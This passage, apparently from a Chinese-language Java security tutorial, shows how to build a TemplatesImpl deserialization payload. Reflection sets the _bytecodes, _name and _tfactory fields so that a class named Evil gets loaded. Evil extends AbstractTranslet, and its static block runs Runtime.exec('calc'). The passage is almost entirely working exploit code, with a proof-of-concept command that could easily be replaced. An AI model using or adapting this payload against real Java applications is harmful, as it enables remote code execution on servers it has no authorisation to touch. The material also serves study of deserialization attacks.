 ```
        Field bytecodes = templates.getClass().getDeclaredField(&#34;_bytecodes&#34;); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField(&#34;_name&#34;); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField(&#34;_tfactory&#34;);
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, &#34;&#34;);
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```

  
切记是 TemplatesImpl, 给出所加载的恶意类:  

```
package com.heihu577;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec(&#34;calc&#34;);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}

```
